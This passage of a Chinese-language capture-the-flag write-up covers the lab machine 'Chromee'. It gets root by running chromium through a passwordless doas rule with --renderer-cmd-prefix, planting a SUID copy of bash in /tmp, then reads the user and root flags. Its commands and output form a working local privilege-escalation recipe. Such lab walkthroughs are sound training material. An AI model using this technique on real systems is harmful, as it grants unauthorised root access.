 之后，便可从kali直接免密登录 `softly` 账户。

## 3.5 提权至root

登录 `softly` 账户后，再次分析 `doas` 配置文件，发现 `softly` 用户可以无密码以 `root` 权限执行 `/usr/bin/chromium`。

```
permit nopass :softly as root cmd /usr/bin/chromium
```

Chromium/Chrome 浏览器存在一个已知的提权技巧，即利用 `--renderer-cmd-prefix` 参数在沙箱外以更高权限执行命令。我们创建一个脚本 `/tmp/pwn.sh`，内容为复制 `bash` 并为其添加 SUID 权限位。

```bash
softly@Chromee:/tmp$ cat > /tmp/pwn.sh << EOF
#!/bin/bash
cp /bin/bash /tmp/rootbash
chmod 4755 /tmp/rootbash
EOF
softly@Chromee:/tmp$ chmod +x /tmp/pwn.sh
```

现在，以 `root` 权限执行 `chromium` 并指定我们的恶意脚本。

```bash
softly@Chromee:/tmp$ doas -u root /usr/bin/chromium --headless --no-sandbox --renderer-cmd-prefix="/tmp/pwn.sh"
...
```

命令执行后，检查 `/tmp` 目录，发现已成功创建了一个带有 SUID 权限的 `rootbash`。

```bash
softly@Chromee:/tmp$ ls -la /tmp/rootbash
-rwsr-xr-x  1 root     root     1234376 oct 19 13:23 /tmp/rootbash
```

执行此文件，即可获得 `root` 权限。

```bash
softly@Chromee:/tmp$ ./rootbash -p
rootbash-5.1# id
uid=1001(softly) gid=1001(softly) euid=0(root) grupos=1001(softly)
```

## 3.6 获取Flag

成功提权至 `root`，现在可以读取所有flag文件。

```bash
rootbash-5.1# cat /home/softly/user.txt
flag{c5dbe81aac6438c522d2f79cc7255e6a}

rootbash-5.1# cat /root/root.txt
flag{e96f7a29ba633b4e43214b43d1791074}
```

至此，渗透测试完成。